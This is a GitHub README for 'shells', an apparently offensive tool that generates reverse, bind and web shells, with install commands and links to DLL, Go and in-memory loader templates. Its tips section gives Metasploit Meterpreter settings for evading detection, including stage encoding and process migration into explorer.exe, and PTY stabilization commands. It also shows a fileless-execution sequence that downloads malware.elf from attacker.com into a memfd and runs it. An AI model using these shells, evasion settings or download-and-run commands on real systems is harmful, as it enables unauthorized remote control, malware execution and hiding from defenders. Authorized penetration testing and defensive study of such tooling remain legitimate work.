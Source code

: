 # Shells

![Demo](./assets/demo.gif)

A collection of reverse, bind and web shells from all over the internet.

## Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/shells.git@main
~~~

b) With `pip`.

~~~ bash
pip install --user git+https://github.com/dadevel/shells.git@main
~~~

## Usage

Just run `genshell` and select one of the many templates.

Some advanced templates require manual steps:

- [TCP reverse shell in C++ as Windows DLL](./genshell/templates/reverse/connector/windows-cpp/)
- [TCP reverse shell with Cosmopolitan Libc](./genshell/templates/reverse/connector/cosmopolitan/)
- [TCP reverse shell in Go](./genshell/templates/reverse/connector/golang/)
- [Reverse shell listener with Tmux and Socat](./genshell/templates/reverse/listener/tmux-socat-multiplexer/)
- [Python ELF loader via `memfd_create()` on Linux](./genshell/templates/exec/memfd-create.py)
- [Python shellcode loader on Linux](./genshell/templates/exec/mmap-ctype.py)

## Tips

### Metasploit

Payloads like `windows/shell_reverse_tcp` are one of the few reverse shells for Windows that support interactive commands.

Evade basic detections when using Meterpreter.
After you received the connection run `load stdapi` ([source](https://twitter.com/lpha3ch0/status/1630213398397874178)).

~~~
set Payload windows/meterpreter/reverse_http
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoLoadStdapi false
~~~

When your shell terminates shortly after you receive the connection run `migrate -N explorer.exe` in the meterpreter shell or `set AutoRunScript post/windows/manage/migrate` on the handler.

### Linux PTY

Spawn a PTY and stabilize your shell with Python.

~~~ bash
python -c 'import pty;pty.spawn("/bin/bash")'
# ctrl+z
echo "stty sane;stty rows $LINES cols $COLUMNS;export TERM=xterm;" | xclip -sel clip
stty raw -echo
fg
# paste clipboard
~~~

Alternatively spawn a PTY with `script`.

~~~ bash
script -q -c /bin/bash /dev/null
~~~

### Linux memfd_create()

Create file in memory with Python 3.8 or newer ([source](https://twitter.com/randomdude999_/status/1629875560401780736)).

~~~
$ python3 -c "from os import*;fork()or(setsid(),print(f'/proc/{getpid()}/fd/{memfd_create(sep)}'),kill(0,19))"
/proc/139856/fd/3
$ curl -o /proc/139856/fd/3 https://attacker.com/malware.elf
$ /proc/139856/fd/3
~~~

### Other interesting tools

- [Kraken](https://github.com/kraken-ng/kraken), multi-language webshell
- [xc](https://github.com/xct/xc), reverse shell for Linux and Windows written in Go
